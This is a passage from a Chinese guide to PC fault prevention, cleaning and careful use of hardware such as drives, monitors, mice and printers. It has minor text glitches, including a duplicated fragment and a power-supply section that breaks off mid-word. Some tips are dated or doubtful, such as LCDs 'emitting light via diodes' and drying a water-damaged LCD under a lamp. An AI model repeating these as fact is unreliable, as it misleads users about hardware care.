笔者曾经遇到这样的问题:将一台显示器的显示模式设置在1024 × 768/85Hz的状态时，显示器就会出现水平方向的条纹并且不断的从显示器底部向上移动。一开始以为不是显示器的原因就是显卡的问题，结果单独的检测两样部件都没有任何故障，最后通过对硬件逐一检测得知是由于主板和显卡匹配出现的问题，当换了一块主板后，问题也随之解决了。现在很多知名厂商也对自己产品的兼容能力大加改善，并公布了已经发现的兼容性方面的隐患和解决方法。由于兼容机的每一个部件都有很大的可选范围，所以在确定硬件的时候，应该多关注一下所选硬件的兼容性能，避免出现兼容性方面的问题。

- 3. 资源冲突

判断是否存在资源冲突可以看看Windows的系统功能中有没有带着惊叹号的设备，如果有这样的设置再查看其属性是否显示冲突，Windows报告不是冲突的话，应该从另外的方面去考虑故障的原因。现在随着电脑技术的不断发展，资源冲突的问题已经越来越少了，尤其从Windows 2000/XP中的高级电源ACPI标准流行以后，这些操作系统支持IRQ共享的功能更强，有时甚至会有5、6个设备共享一个IRQ中断也不会产生资源冲突的问题。如果的确发生了资源冲突的故障，应该手动分配给冲突硬件一个未使用的中断，问题就迎刃而解了。

- 4. 板卡温度过高

在天气热的时候电脑频繁死机是很多电脑使用者都遇到过的问题。温度过高对电脑的影响是全方位的，不仅会影响电脑的正常操作，更有甚者会造成板卡的硬件损坏。所以，给电脑配备必要、可靠的散热系统是解决此类问题的关键。

- 5.其他软件方面的隐患

板卡的驱动程序、官方发布的 Bug 补丁、BIOS 的新版本，这些都要正确选择安装。注意防范病毒对板卡造成的不良影响也很重要。由于本文着重介绍的是硬件方面知识，所以就不深入讨论了。

#### (四)CMOS设置导致的故障隐患

CMOS 中的参数设置对于计算机的稳定高效运行有着非常大的影响，如果 CMOS 参数设置不当则有可能造成下述的故障隐患。

- 1. 无法使用设备

这种故障一般发生在 USB 设备的使用，如果在 CMOS 中没有将 USB 设备支持选项设置为“Enabled”，那么即使在 Windows 中安装了正确的驱动程序也无法检测到硬件设备。对于网卡、内置 Modem 卡和声卡之类的设备在安装时候需要使用单独的 IRQ 中断地址，如果在 CMOS 中没有正确数值也将造成设备无法使用。

- 2. 系统运行速度下降

在 CMOS 中有关于 CPU 二级缓存和内存条延迟时间的设置，如果关闭了 CPU 二级缓存则会使系统运行速度下降许多，而内存条的延迟设置不恰当将会造成系统运行速度的下降，一般建议根据自己使用的内存条质量进行设置。

另外，如果你的老主板不支持 DMA 66/100/133 工作模式，那么购买的新款硬盘就无法运行在这种高传输速率的状态下，自然也就不能体验到高性能带来的乐趣了。

- 3. 系统无法自动关闭电源

有些使用了 Windows 2000 的朋友会发现，在关闭计算机的时候无法自动关闭电源，其原因就是将 CMOS 中的高级电源管理功能设置为“Disabled”，这样每次关闭计算机的时候都会出现“可以安全关闭计算机”的提示画面。只有将 CMOS 中的选项打开，并重新安装 Windows 2000 才可以解决这个问题。

#### (五)机箱和电源的故障隐患

机箱好坏对这台电脑的性能关系不太大，但是在选购机箱的时候一定要仔细钢板的质量，建议大家选择比较厚实的钢板，这样在运行的过程中不会因为钢板质量低劣而导致震动，从而影响硬盘等重要部件。

电源的好坏对整台电脑还是影响很大的，由于电源质量几乎可以影响到整台电脑的所有设备供电，而现在电脑的配件也越来越多，很多朋友光驱、刻录机、双硬盘、外加的辅助散热风扇等等都需要供电，所以一个输出功率强劲、工艺完善的电源是很必要的。最头疼的是，一般电源的故障现象具有隐蔽性，也最容易忽略。往往是出现问题后把所有硬件都检测了一遍才发现是电源惹的祸，花费了很大的功夫。所以电源的防患是真正的防患于未然，应该在购买的时候选择一个品质上乘的产品。

### 二、电脑保养与维护

无论是刚刚购置的全新计算机，还是已经使用了一段时间的计算机，为了让它能够正常稳定地工作，减少故障发生的机率，最重要的就是要做好日常保养维护。其实对电脑的日常保养维护并不复杂，主要包含了电脑的使用环境、对计算机部件进行清洁除尘，以及日常使用时候有哪些需要注意的事项等几个方面。下面就一起来看看怎样对电脑进行保养维护。

#### (一)电脑的使用环境

电脑的使用环境就好比是我们生存的自然环境一样，在良好的环境中，电脑可以长期正常工作，因此计算机所在的环境应该具备较好的条件。

- 1.温度

各种电脑部件和存储介质对温度都有严格的规定，如果超过或者无法达到这个标准，那么电脑的稳定性就会降低，同时使用寿命也大大缩短。比如当温度超过30摄氏度的时候，内存中数据丢失的情况就有可能发生；CPU 会出现逻辑和计算错误；硬盘中的数据错误也有可能出现；而温度过低则会出现水汽凝聚和结露现象，这对于计算机部件来说更是有可能造成致命的损伤。所以电脑工作环境的温度应该保持适中状态，标准的温度是在 18°C 至 24°C 摄氏度之间为好，而且有条件的朋友可以在电脑房装置空调来保持温度的恒定。

特别需要指出的是，高温是电脑部件损坏的一个主要原因。在温度偏高的时候，极易造成部件过热烧毁，或者由于散热不理想而加快部件的老化，时间长了之后就可能造成部件损坏。在夏季，当室温达到30摄氏度的时候需要减少开机的次数，缩短开机的时间；每次开机时间不要超过2小时；当室温在35摄氏度以上的时候，最好不要启动计算机以防止机器损坏。

- 2.湿度

电脑的工作环境需要保持干燥，在较为潮湿的季节中，计算机电路板表面和部件都容易氧化和发霉，键盘按键也可能失灵。对于经常使用的计算机，由于机器自身可以产生一定热量，所以不容易受到潮湿的侵害。在较为潮湿的环境中，建议计算机每周至少开机一次，每次一小时以上，利用计算机自身的热量来降低机箱内的湿度。

机一小时来保持机器内部的干燥。在潮湿的环境中，软盘和光盘很容易发霉，如果将这些发霉的软盘和光盘放入软驱与光驱中读取的话，对驱动器的损伤很大，因此不仅计算机需要选择比较干燥的地方，一些软盘、光盘也要妥善保存，以免对计算机部件造成伤害。总的来说，干燥的环境对于电脑有利，但是过分干燥的地方又容易产生静电，也会影响电脑的正常工作，所以在北方干燥的地方，可以采用蒸发少量水汽的方法来略微提高湿度。一般建议将电脑房的湿度保持在40%至60%之间为好。

## 3. 震动

大家都知道计算机在工作的时候不能受到震动，这主要是为了防止硬盘和其他设备受到损伤。目前的硬盘转速都保持在5400转至7200转高速运动，而且磁头的运行与硬磁盘面距离很小，一旦受到震动就很容易损坏磁头或者磁盘面。对于打印机、扫描仪等外设而言，如果没有一个稳定的操作环境，它们是无法提供最佳的工作状态。所以，安置计算机的电脑桌要稳固，桌面与附近都不能有敲打和震动。另外需要提醒大家注意的是，有些朋友在使用电脑的时候有晃脚之类的不良习惯，这些微小的震动也会成为计算机部件损坏的隐患。而且现在的电脑桌都配有抽屉，这样虽然方便我们使用的时候，但是在计算机工作期间开关抽屉将会造成电脑桌的震动，这也有可能造成计算机部件的损坏。即使计算机已经关闭，它也不能受到强烈的震动和冲击，否则也会导致部件和设备的损坏。

## 4. 电磁干扰

在计算机附近要避免其他的电磁干扰，如果存在电磁干扰则会造成系统运行故障、数据传输和处理错误，甚至会出现系统死机的情况。这些电磁干扰一方面是来自于计算机外部的电器设备，比如日光灯、电视机、音响、微波炉等，还有可能是机箱内部的组件质量不过关造成电磁串扰。消除电磁干扰的方法也很简单，只要保证在计算机周围不要摆设容易辐射电磁场的大功率电器设备，同时选购声卡、显卡、内置Modem卡等设备的时候最好采用知名厂商的产品，这样可以将产生电磁干扰的可能性降低到最小。一般来说，可以采用电脑设备的屏蔽、接地等方法，还可以通过将电器设备之间相隔一定的距离加以解决。比如可以通过将其他电器设备接地来排除电磁干扰，同时在我们的电脑机箱和显示器周围不要放置大功率的电器设备，即使需要放置，也要保证在1.5米以外，这样基本上可以有效的避免电磁干扰的产生。另外，有时候质量不好的板卡工作的时候也会产生电磁干扰，由于它们都放置在机箱内，解决起来比较麻烦，因此最好的方法就是更换品质一流的设备。

## 5. 灰尘

灰尘可以说是计算机的隐形杀手，往往很多硬件的故障都是由它一手造成的。看着自己的计算机灰蒙蒙本来就不舒服，更为主要的是灰尘对很多部件会造成致命损伤。比如软盘中灰尘多了，在读写的时候不仅容易将盘片划伤，还会把灰尘传播到软驱中，以后读写时会损坏软盘。如果仅仅损坏便宜的软盘倒还好，有没有想到过灰尘侵入硬盘并且造成硬盘磁碟的物理损伤之后，你那些重要的数据就此灰飞烟灭，想哭都来不及呢。更为严重的是风扇上积累的灰尘就像棉被一样降低了散热效果，一旦热量聚集超过限度，显卡或者是CPU之类部件就很有可能被烧毁了。

因此，电脑放置的场所一定要远离灰尘和污物源，保持使用环境的整洁。同时不要在电脑房内抽烟，这样可以避免微小的灰尘颗粒侵入计算机内部对硬件造成不必要的损害。

## 6. 电源电压

计算机长期正常运行与电源电压有着密切的关系，需要电源具备良好的供电质量和供电的连续性。在供电质量方面，需要使用标准的220V电压，电压过大会给板卡等部件带来额外的负担，也会加速设备的老化损坏。电压不足会使得电流增大，导致发热量增加，有可能烧毁计算机部件。而且当你的计算机安装了多个硬盘、光驱和其他板卡设备之后，如果电压不足将会造成这些设备无法正常工作，甚至会损坏硬盘和板卡部件。因此，一个品质优越的电源就显得非常重要，它可以说担当了整个计算机正常运行最为重要的后勤保障工作。

在供电的连续性方面，建议有条件的朋友购置一台电脑专用的不间断电源(UPS)，它不仅可以保证输入电压的稳定，而且遇到意外停电等突发性事件的时候还能够用自己储存的电能继续为计算机供电一段时间，这样就可以让我们从容不迫的保存当前正在进行的工作，保证电脑和数据的安全。

#### (二)电脑设备的清理维护

当我们打造了一个理想的电脑使用环境之后，并不意味着就此高枕无忧了。计算机使用了一年半载之后，日常使用中还要时刻注意对每一个电脑部件设备进行清理维护，这样才可以彻底去除硬件中的故障隐患，同时能够确保计算机的正常稳定工作。

由于电脑各配件的清洁维护大同小异，其操作方法也比较简单，因此我们这里只针对一些特别部件的清洁作详细的讲解。另外，我们也要对有关电脑清洁工作的注意事项作些介绍。

在进行电脑维护之前需要准备一些常用的工具，比如用于旋螺丝的起子、柔软的棉布、油画笔或者油漆刷、橡皮、皮老虎或者吹风机，以及一瓶高纯度的酒精。准备好这些工具之后，就可以开始对电脑进行清理工作了。

## 1. 光驱和刻录机的清理

光驱和刻录机是计算机中的重要配置，由于它们都属于易耗品，使用一段时间之后会出现读盘能力下降的情况，时间长了之后甚至无法读取任何一张光盘。出现这种问题的主要原因是由于光驱内部激光头积灰太多或者激光头老化所致，因此可以通过加强光驱和刻录机的日常清理维护来排除读盘能力下降的问题，以延长使用寿命。

- (1) 拆卸光驱和刻录机比较麻烦，将外壳的螺丝取下之后可以看见内部的电路板。虽然不同光驱的内部构造都不一样，但基本上都是通过卡子或者是橡胶垫皮使得电路板与外壳紧密地固定在一起，因此需要仔细观察一下，然后取下底板(如图1)。
- (2) 取下底板之后，将机芯正面向上就可以看见内部的激光头组件了，其中有一个玻璃球模样的“东东”就是聚焦透镜。在光驱使用了一段时间之后，聚焦透镜表面就会累积一层灰尘，这时候可以用棉签或者相机专用的镜头纸将表面的灰尘轻轻擦拭干净。不过此时用力不能太大，因为聚焦镜头是安装在有弹性的支架上，如果用力过大将会致使透镜发生位移或者偏移，从而影响光驱的读盘能力(如图2)。

另外需要提醒大家注意的是清洁透镜的时候千万不能用棉签沾清水或者酒精之类的清洁剂擦拭，这是因为透镜表面有一层氟化镁制作的薄膜，它不溶于酒精，但是容易受潮而变形。如果使用这些清洁剂擦拭激光头之后，尽管短期内光驱读盘能力会有所提高，但事实上激光头已经受损。比较好的清洁激光头的方法是直接用干净的脱脂棉擦去激光头的灰尘。

- (3) 在清理光驱的时候，不要忘记对光驱的托盘架进行清洁。因为长期弹出放入光盘的时候，光盘架上也会积累一些灰尘，这不仅会增加激光头的读取难度，同时也容易弄脏激光头。在清理托盘架的时候，可以在光驱正面找到一个直径大约在1毫米左右的退盘孔，这时用一根回形针插入退盘孔即可弹出托盘架，用手拉出之后就可以用软布进行清洁除尘操作了(如图3)。
- (4) 最后，将光驱背部的电源插孔、CD音频线和数据线的接口进行清理，此时用油画笔或者棉签均可(如图4)。

## 2. 电源的清理

计算机内的电源可以说是整个系统稳定运行的动

## 3. 显示器的清理

显示器是整个电脑的面子，但是由于内部构造非常复杂，它的原理并不是一般朋友可以了解的，再加上随意打开显示器外壳将造成无法保修，因此我们只能对显示器外部和屏幕进行清理操作。

- (1) 对于显示器外壳清理可以用专用的显示器清洁蜡进行清洁。这时用清洁蜡附带的海绵沾一些蜡来擦拭显示器外壳，尤其是上部的排风口，这里是最容易积累灰尘的场所，一定要用力擦拭干净。

需要指出的是，虽然清洁蜡的清洁效果最好，但是由于附带的化学物质带有一定的腐蚀和刺激作用，所以最好在使用清洁蜡除尘之后再用干净的软布擦拭一下，这样不仅能够有效的保护显示器外壳，还可以去除刺鼻的味道。

- (2) 在清洁显示器屏幕的时候可以用相机专用的镜头纸或者麂皮来擦拭，如果没有的话也可以用柔软的抽纸替代。擦拭屏幕的时候要稍微轻一些，防止划伤屏幕。对于有污渍的地方可以稍加用力多擦几次，但是千万不能用水或者酒精来清洗，因为这样会造成屏幕的过早老化。

液晶显示器的清理也和传统显示器差不多，只是在清洁屏幕的时候要更加小心，因为液晶显示器主要是靠二极管发光，如果力量大的话会破坏晶体结构造成永久损坏，这样就得不偿失了。

## 4. 鼠标的清理

在日常使用计算机的过程中，鼠标已经成为一个不可或缺的帮手，而且在 Windows 等视窗系统中它的使用频率甚至比键盘还要高很多。由于鼠标底部长期与鼠标垫或者桌子表面接触，很容易被弄脏，特别是机械鼠标的滚珠会卷入大量的脏物，严重影响鼠标的正常使用。因此，对鼠标进行清理也是保证计算机正常运行的前提之一。

- (1) 清洁鼠标之前先按照背面的指示旋开塑料底盖，这时候可以看见鼠标内部的转轴和滚球上都有很多脏物。如果你发现鼠标运转不灵，那就是这些脏物在作祟了。
- (2) 用皮老虎在每个转轴孔内吹一下，将鼠标内部的灰尘吹出来。接着用棉签将几个转轴表面的脏物清理下来，同时用油画笔把鼠标内部的灰尘清扫干净，此时要注意避免脏物从转轴孔中落入鼠标内部。然后用干净的软布仔细擦拭滚球，把附着在表面的脏物清理干净。
- (3) 将滚球装回鼠标并旋好底盖之后，再用清洁蜡对鼠标表面进行清洁。尤其是鼠标底部会有一些脏物，一定要将其去除，否则也会影响鼠标的灵敏度。

由于鼠标全是塑料制作的，因此在清理过程中不要使用清洁剂，否则会造成鼠标老化，从而影响我们正常使用计算机。

## 5. 软驱的清理

虽然现在软驱已经逐渐被淘汰，但是很多朋友的计算机还是有这个部件。由于软驱的密封性差，因此也是一个严重遭受污染的地方，需要对其进行一番清理。

- (1) 用起子卸下软驱外壳的螺丝之后可以取下上面的盖板，软驱内部就暴露在我们眼前了。此时可以先用电吹风或者皮老虎吹一下软驱内部的灰尘，接着再用干净的软布将表面的灰尘擦干净。
- (2) 对于软驱来说，最重要的是它的磁头部分，清理的时候可以用棉签沾取高纯度的酒精擦拭干净，这时候要注意的是用力不可太大，只要将附着在磁头表面的灰尘清除即可。另外还有一个便捷的方法，就是在安装好计算机之后用现成的软驱清洁盘进行清洁，不过需要你多花费一些银子了(如图 5)。

## 6. 电脑清理工作的注意事项

到此为止，整台计算机清理工作就完成了，不过在清洁过程中还有一些事项需要大家格外注意。

- (1) 避免静电
静电对计算机的危害很大，当我们处在干燥的环境中更容易产生静电。比如当我们拆卸计算机的时候，身体中就会带有静电，若是此时直接去拿板卡或者硬盘等部件，就很有可能导致这些部件的损坏。因此在清理过程中，每拿一样部件都要释放身体内的静电。释放静电的方法很简单，只要用手触摸墙壁或者是铁制的物品即可，这样把身体内的静电转移出去，然后再拿计算机部件就很安全了。

- (2) 物品放置的环境
在清理计算机部件的时候，所有部件放置要放置在稳固的平台上，而且周围要避免有水、有灰尘，否则忙乱之中极易造成部件落地损坏或者是受潮损坏。另外，每一个部件下面最好都垫一个绝缘的海绵，以防止管脚损坏或者是静电损坏。

- (3) 物品记录
在拆卸计算机之前，建议大家先用纸记下所有线缆的连接方法，尤其是主板上各个连接线的对应位置，以防安装时候无法正常启动计算机。另外，所有卸下的螺丝、垫片等物品最好不要混放在一起，比如将机箱螺丝单独放在一张纸上，同时标记“机箱螺丝”，这样可以避免螺丝丢失，而且安装起来也非常方便。

- (4) 避免用化学物品清洁电脑
一般来说，酒精等化学物品可以溶解一些不容易擦去的污垢，如果只是用来清洁显示器外壳也没什么不良的影响，但一定不要用酒精来清洁显示器屏幕和光驱激光头等其他一些重要的部件，因为现在较高档的显示器都在屏幕上涂防静电等特殊的保护涂层，一旦使用酒精擦拭显示器屏幕，就会溶解这层特殊的涂层,对显示效果造成不好的影响。

- (5) 避免用VCD机清洁光盘清洁光驱
现在市场上有很多VCD清洁光盘出售，有的朋友就用它来定期清洁光驱。这种光盘上有两排小刷子，如果是在一般的VCD机上使用，由于VCD机使用的是两倍速光驱，光盘的旋转速度并不快，所以当小刷子在VCD机光头上轻轻扫过时，可以起到清洁光头的作用。但现在的电脑所用的光驱速度就快得多了，常用的都是40倍速以上的光驱，光盘的旋转速度已经接近以前一些老式硬盘的速度。这时再用这种VCD清洁光盘清洁光驱时，这两排小刷子就成了光头的杀手，它不仅会划伤光头，严重时还会撞歪光头，使其定位不准，无法从光盘读取数据。

## (三)电脑使用的注意事项

对计算机进行清理维护可以保证计算机稳定运行、消除硬件故障隐患，但更重要的还是要注意在日常使用过程中对计算机处处小心呵护，这样才能够延长硬件的使用寿命。

## 1. 硬盘的使用注意事项

- (1) 硬盘是一种高精设备，工作时磁头在盘片表面的浮动高度只有几微米。在开启计算机之后，硬盘就始终处于高速旋转的工作状态，此时磁头在距离盘面极近的距离移动，即使是微小的震动也会对硬盘造成伤害，所以首先要保证电脑桌的稳定。

在使用键盘输入或者是玩格斗类游戏的时候，用力不可太大，一方面会对键盘造成损伤，同时也会由于震动而导致硬盘受损。如果你经常运行格斗游戏，建议购买专用的游戏手柄，或者将电脑主机放置在地面上，这样可以减少由于震动造成硬盘损坏的隐患。另外，在硬盘的安装、拆卸过程中应多加小心，硬盘移动、运输时严禁磕碰，最好用泡沫或海绵包装保护一下，尽量减少震动。

- (2) 在安装硬盘的时候，需要注意一定将固定硬盘的螺丝旋紧，否则硬盘工作的时候不仅会发出比较大的噪音，而且会因为震动导致硬盘出现物理坏道。另外，有些朋友安装了硬盘风扇来增加散热能力，但风扇在工作时候的震动也会让它成为名副其实的“硬盘杀手”。
- (3) 出于存储数据的需要，很多朋友都安装了两块硬盘，再加上CDROM、DVDROM和刻录机等外设，这就对电源功率提出了比较高的要求。如果电源功率不足，就会在使用计算机的过程中出现各种各样的问题，轻则无法读取硬盘中的数据，重则会造成硬盘的损坏。
- (4) 如果计算机配置的内存比较小，但是经常需要运行Photoshop之类大型软件，那么系统只能频繁访问硬盘中的虚拟空间，这样读取硬盘的次数明显增多，对硬盘寿命是有害无益的。
- (5) 有些朋友为了让系统运行的更快，经常会对硬盘进行碎片整理操作来优化系统。虽然这能够提升系统性能，但频繁的进行磁盘碎片整理会加大硬盘的工作负担，也会导致硬盘老化。因此建议大家在进行磁盘碎片整理之前查看一下，在碎片率达到10%以上之后再运行整理操作。
- (6) 由于硬盘读写操作时处于高速旋转之中，如果突然断电会导致磁头与盘片猛烈摩擦而损坏硬盘。因此关机的时候不要直接按下电源按钮强行关闭计算机，一定要通过操作系统中的关机命令来关闭计算机。若是遇到意外死机或者非人为因素的断电，这时要等待1分钟左右重新开机，因为在断电之后磁盘并没有马上停止旋转，如果此时重新开机会加大马达和轴承的负担，有可能造成硬盘的损坏。
- (7) 使用硬盘时应注意防高温、防潮、防电磁干扰。一般温度控制在20摄氏度至25摄氏度为好，温度过高或过低都会造成硬盘电路元件失灵，磁介质也会因热胀效应而造成记录错误。另外，尽量不要使硬盘靠近强磁场，如音箱、喇叭、电机、电台、手机等，以免硬盘所记录的数据因磁化而损坏。

## 2. 普通显示器的使用注意事项

- (1) 首先应将显示器放置在干净清洁的环境中使用，但是灰尘是无孔不入的，建议给显示器买个专用的防尘罩，每次用完电脑后应及时罩上防尘罩。这样可最大限度地防止灰尘受静电吸引而跑进显示器内部，造成线路动作异常，影响使用寿命。
- (2) CRT显示器的玻璃表面有一层特殊的涂层，它的主要功能就在于防止在使用时受到其他光源的反光以及炫光，同时加强显示器本身的色彩对比效果。在日常使用中，不要随意用手指触碰玻璃表面，以免手汗和灰尘沾上显示器，给日后的清洁工作带来麻烦。而且平常应避免硬物触碰显示器的镜面，尤其是衣服上的钮扣、手表带、皮带扣环等物品。在搬运显示器的时候，显像管前部应使用海绵或厚的棉质衣料等柔软物体包裹，以防止碰坏显像管。
- (3) 避免在显示器镜面或外壳上粘贴胶布或各种贴纸，以免胶水或胶带残渣残留外壳，这种残渣以后将很难进行清理。而且注意不要在显示器上堆放杂物，一方面可能会影响显示器的正常散热，另一方面以免杂物下坠损伤机器或人。如果将水杯等物品放在显示器上，不小心就会将液体滴入显示器内部，从而造成电路短路。
- (4) 显像管作为显示器的散热大户，高温会加快各个元件的老化速度，长期在高温下运作，会大大缩短显示器的寿命。那么在显示器的摆放上就要注意，尽量远离阳光照射的地方，并且能够在一个通风环境比较好的地方摆放;这样在显示器工作的过程中可以避免因光照而带来的热量，同时也可以因为通风环境好而起到一定的散热作用，延长了显示器的使用寿命。
- (5) 显示器工作的环境湿度要求保持在30%至80%之间，如果湿度过高极易产生放电现象，内部的其他元器件受潮还可能会生锈、腐蚀，严重时会使电路板发生短路;当湿度低于30%的时候，由于环境过于干燥，显示器内部极易产生静电干扰，内部元器件被静电破坏的可能性增大。长时间不用的显示器，可以定期通电工作一段时间，让显示器工作时产生的热量将内部的潮气驱赶出去。
- (6) 显示器在强光的照射下会加速显像管荧光粉的老化、降低发光效果，所以不要把显示器摆放在日光照射较强的地方，最好是将显示器放在光线不能直接照射的地方。可在荧光屏的正面安装一块辐射防护装置，最好能选含铅导体接地屏蔽技术的。这样不仅能加强显示器的对比度、增强显示的清晰度，还能消除静电和眩光，吸收紫外光，对人体健康和显示器都有好处。
- (7) 很多用户喜欢把音箱放在显示器的两边，甚至把音箱粘在显示器上，但是这样产生的电磁会对显示器造成伤害。过多的电磁干扰会使显示器的颜色画面产生失真，虽然现在显示器消磁非常方便，但是长此以往对显像管造成的伤害就非常大了，所以应该尽量避免显示器与电视、电冰箱、音响等大的电气设备的距离太近。有条件的话，可以使用显示器上的消磁按钮，但注意一次不要反复地使用它，也不能用力过猛，否则也会损坏显示器。
- (8) 插拔显示器电源线或信号电缆时应注意，因为遇到的大部分显示器问题都是接触不良或者受环境影响造成的，比如显示器接触不良将会导致显示颜色减少或者不能同步。插头的某个引脚弯曲可能会导致显示器重则不能显示内容，轻则不能显示颜色或者偏色，以及有可能导致屏幕上下翻滚。这种问题非常麻烦，因为如果矫正弯曲的引脚可能使得引脚折断。

## 3. 液晶显示器的使用注意事项

- (1) 水分对于液晶的伤害很大，如果液晶屏进水或者在湿度很大的环境下工作，显示屏中的数字图象会变得模糊甚至看不见，所以我们应该把LCD放在一个较为干燥的环境下使用，不让潮气进入LCD内部。对于一些工作环境比较潮湿的用户，可以买一些干燥剂放在周围以保持LCD周围空气的干燥。如果水汽进入LCD也不要紧张，只需要把LCD放到大功率的台灯下将机器内部的水分逐渐蒸发掉就可以了。
- (2) 和传统的CRT显示器一样，液晶显示器也会因为长时间的工作引起内部的老化，尤其糟糕的是在长时间内显示同一张画面。因为连续长时间显示一种固定的图像时，显示器的热量就会不断增加，这和它的液晶控制透光度技术有很大关系，当画面静止时液晶也是保持不变的，因此时间过长之后就会产生很大的热量，这对液晶显示器本身的寿命也不好，所以建议使用屏幕保护程序来保护液晶屏幕如果长时间地连续显示一种固定的内容。
- (3) 液晶显示器的显示原理是一种直接的对应显示方式，工作在最佳分辨率下的液晶显示器把显卡输出的模拟显示信号通过处理，转换成该像素在屏幕上绝对地址的显示信号，然后再送入液晶板，直接把显示信号加到相对应的像素上的驱动管上。在显示小于最佳分辨率的画面时，液晶显示则采用两种方式来显示:一种是居中显示，另外一种则是扩大方式。比如最佳分辨率是1024 × 768的液晶显示器在显示800 × 600分辨率时，采用居中显示方式只是以其中间那800 × 600个像素来显示画面，这种方式画面太小；而扩大方式就是将800 × 600的画面通过计算方式扩大为1024 × 768的分辨率来显示，由于此方式处理后的信号与像素并非一一对应，虽然画面大，但是比较模糊。无论哪种显示方式都不理想，所以建议大家在推荐的最佳分辨率状态下使用。

(4)液晶显示器很娇贵，要注意千万不要用手对着显示屏指指点点，或者用力的戳显示屏，在剧烈移动或震动的过程中就有可能损害到显示屏的质量和显示器的内部液晶分子，使得显示效果大打折扣。另外要避免强烈的冲击和振动，这是因为LCD中含有很多玻璃的和灵敏的电气元件，掉落到地板上或者其他类似的强烈打击会导致屏幕或其他单元的损坏。另外，由于液晶及偏振片都是有机物，在紫外线照射下会产生光化学反应，所以不要将液晶显示器放在日光可以直接照射到的地方。

## 4. 光驱与刻录机的使用注意事项

- (1)光驱采用了非常精密的光学部件，而光学部件最怕的是灰尘污染。灰尘来自于光盘的装入、退出的整个过程，光盘是否清洁对光驱的寿命也直接相关。所以，确保计算机使用环境的洁净之外，光盘在装入光驱前应作必要的清洁，对不使用的光盘要妥善保管，以防灰尘污染。在使用完光盘之后，不要让光驱架长时间处于弹出状态，这样很容易造成光驱的损坏。

- (2)在机器使用过程中，光驱要保持水平放置。这是由于光盘在旋转时重心因不平衡而发生变化，轻微时可使读盘能力下降，严重时可能损坏激光头。有些人使用电脑光驱在不同的机器上安装软件，常把光驱拆下拿来拿去，甚至随身携带，这对光驱损害很大。其危害是光驱内的光学部件、激光头因受振动和倾斜放置发生变化，导致光驱性能下降。

- (3)光驱内一旦有光盘，不仅计算机启动时要有很长的读盘时间，而且光盘也将一直处于高速旋转状态。这样既增加了激光头的工作时间，也使光驱内的电机及传动部件处于磨损状态，无形中缩短了光驱的寿命，所以建议在关机前及时从光驱中取出光盘。

- (4)因为盗版光盘价格与正版光盘价格有一定差距，所以很多朋友都购买了盗版光盘，但是使用光驱长期读取盗版光盘的时候，由于盘片质量差，激光头需要多次重复读取数据，这样电机与激光头增加了工作时间，从而缩短了光驱的使用寿命。虽然正版光盘价格比较高，但是光驱读盘有保障。因此建议大家使用正版光盘。

- (5)在光驱前的面板上都有出盒与关盒按键，利用此按键是常规的正确开关光驱盘盒的方法。但是有些朋友习惯用手直接推回盘盒，这对光驱的传动齿轮是一种损害。另外，在很多软件或多媒体播放工具中都有开关光驱的程序，建议大家尽量使用软件控制开关光驱，这样可减少光驱故障发生率。

- (6)在使用光驱播放影碟的时候都需要长时间连续读盘，这对光驱寿命影响很大。如果必须要用光驱播放影碟的话，建议将其拷入硬盘之后进行播放，这样可以延长光驱的使用寿命。

- (7)刻录机在刻录的时候，激光头通过向刻录盘发射较高功率的激光来实现信息的写入，遇到质量不好的刻录盘片会缩短刻录机使用寿命，所以在选择刻录盘盘片时应该尽量选用名牌大厂的产品。

- (8)刻录机的散热不良会导致刻盘失败，还会导致激光头长时间连续刻录老化而缩短寿命，所以在刻录过程中应该注意散热，尽量避免长时间的连续刻录。

## 5. 键盘鼠标的使用注意事项

- (1)不能用太大的力量来操作键盘。一般情况下键盘的弹性都比较良好，只要轻轻敲击就可以输入指定的字符，而且输入完成以后对应按键在弹性的作用自动恢复到正常状态。但是如果我们使用较大的力气来敲打键盘时，可能会使按键上的弹簧发生形变，从而丧失弹性，时间长了键盘上的按键就会受到损伤。

- (2)一旦有液体流进键盘则会使其受到损害，造成接触不良、腐蚀电路和短路等故障。目前大多数键盘直接裸露在空气中，而没有防水装置，这样键盘在使用的过程中受到水的侵袭可能性是非常大的，因此我们平时一定要注意做好防水工作，尽量不要在键盘附近放置任何液体。

- (3)如果直接将鼠标放置在桌面上使用，一方面很容易把桌面的灰尘和脏物卷入鼠标内部，另外在过于光滑的桌面上很难灵活的移动鼠标，因此最好为鼠标配上一块鼠标垫，这样使用起来才得心应手。对于光电鼠标来说，不要让强光直接照射到鼠标上，这样会由于外部光源的干扰影响鼠标的正常使用。

- (4)无论鼠标还是键盘，在更换或者插拔的时候都要先关闭计算机，然后再拔下相应的线缆，否则极易损坏主板上的端口，造成无法正常使用计算机。

## 6. 喷墨打印机的使用注意事项

- (1)要保证打印机周围环境的清洁，一方面防止灰尘进入打印机内部造成打印故障，更主要的是防止灰尘堵塞打印头造成打印质量下降甚至打印头的损坏。

- (2)不要将金属物或其他小杂物放置在打印机的上面，以防止小杂物掉入打印机内部造成损坏。而且在不用打印机时应用布将它遮好，因为打印机的进纸口是敞开的，容易在不觉中掉进异物，从而造成在启动打印时发生故障。

- (3)在打印机搁置了一段时间未用之后，打印头有可能因为墨水干涸而无法打印，这时候如果强行打印则无法达到最佳效果，更有可能损坏打印头，所以一定要通过打印机附带的洗墨程序来清洗打印头。在更换墨盒之后也可以通过这个步骤来清洗打印头，这样才能达到最佳打印效果。

- (4)为了节约开支，有些朋友在墨水用完之后会自己灌墨，但是灌装墨水的颗粒可能会比原装的大，而且在灌装时还会将尘埃颗粒带入墨水中。如果采用这种墨水打印，这些颗粒沉入底部在负压的作用下很有机会堵住喷嘴管进水口，发生这种情况如果不能及时排除可能会造成永久堵塞，此时就要更换墨盒或者是更换打印头，明显得不偿失，所以建议大家还是采用原装墨盒为好。

- (5)当电源线被捆扎或打结时最好不要使用打印机，因为在电源线被捆扎或打结的时候电流通过时的阻力会大大增加，从而造成电阻过大，这样可能会因此而导致短路。另外，不要将打印机放在其他功率较大的设备附近，以防止电磁噪声可能会造成打印机工作不正常。

- (6)添加打印纸的时候最好先将其整理一下，一方面去除打印纸中的静电，防止一次卷入多张打印纸，另外一方面可以去除打印纸中的纸粉，这可以保持打印机内部的洁净，预防打印故障的发生。

- (7)在不用打印机的时候尽量减少打开喷墨打印机的次数，因为每开启一次打印机都要自动进行一次喷嘴清洗，打开的次数越多，墨水消耗越多。而且在开机之后不要立刻关机，要等到打印机自检完毕，即电源指示灯不闪烁后再关机，以免打印机程序发生错误，不能正常使用。

